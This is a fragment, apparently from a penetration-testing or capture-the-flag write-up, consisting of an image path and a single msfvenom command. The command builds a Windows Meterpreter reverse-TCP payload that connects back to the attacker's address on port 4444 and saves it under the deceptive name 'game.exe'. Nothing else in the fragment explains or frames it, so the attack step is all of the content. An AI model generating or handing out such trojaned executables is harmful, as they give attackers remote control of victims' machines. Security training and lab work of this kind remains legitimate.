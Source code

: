 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Our IP> LPORT=4444 --platform windows -f exe -o game.exe -a x86
